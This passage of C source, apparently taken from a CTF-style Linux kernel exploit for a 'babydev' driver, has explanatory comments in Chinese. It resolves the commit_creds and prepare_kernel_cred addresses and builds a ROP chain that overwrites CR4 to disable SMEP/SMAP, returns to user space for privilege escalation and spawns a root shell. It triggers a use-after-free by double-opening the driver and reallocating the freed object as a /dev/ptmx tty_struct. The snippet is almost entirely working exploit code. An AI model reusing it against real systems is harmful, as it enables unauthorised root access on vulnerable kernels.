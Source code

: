 ```c
        }
        if(!strcmp(func, "commit_creds")){
            commit_creds = address;
        }
    }
    if(!commit_creds || !prepare_kernel_cred){
        error("Failed to get the function address.");
    }

    success("The address of prepare_kernel_cred is 0x%llx.", prepare_kernel_cred);
    success("The address of commit_creds is 0x%llx.", commit_creds);


    // 先编写好需要使用的ROP链
    size_t rop[0x20], p = 0;
    // 设置cr4寄存器的值为0x6f0，绕过smep和smap
    rop[p++] = POP_RDI_RET;
    rop[p++] = 0x6f0;
    rop[p++] = MOV_CR4_RDI_POP_RBP_RET;
    rop[p++] = 0;
    // ret2usr，执行commit_creds(prepare_kernel_cred(NULL));
    rop[p++] = (size_t)get_root_privilige;
    // 通过swapgs、iretq来回到用户态
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = IRETQ_RET;
    // 创建一个shell，恢复保存的状态
    rop[p++] = get_root_shell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;

    // 我们写fake_operations函数指针表中的所有函数都为MOV_RSP_RAX_DEC_EBX_RET
    size_t fake_op[0x30];
    for(int i=0;i<0x30;i++){
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;
    }

    // 执行到上述MOV_RSP_RAX_DEC_EBX_RET后，会栈迁移到fake_operations结构体起始位置
    // 在起始位置布置pop rax; ret的gadget，配合后面的MOV_RSP_RAX_DEC_EBX_RET来再次栈迁移到rop链
    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;


    // 漏洞利用的核心
    // 打开该驱动两次，获得fd1和fd2
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 调整其大小为0x2e0，如此其会属于kmalloc-1024
    ioctl(fd1, 0x10001, 0x2e0);
    // 释放object到kmalloc-1024，但fd2仍然可以访问
    close(fd1);


    size_t fake_tty[0x20];
    // 打开/dev/ptmx，其tty_struct结构体的内存会从kmalloc-1024中申请，因此fd2可以控制这块内存
    int fd3 = open("/dev/ptmx", 2);

    // 将tty_struct结构体的数据读到fake_tty中，防止修改到不该修改的值
    read(fd2, fake_tty, 0x40);

```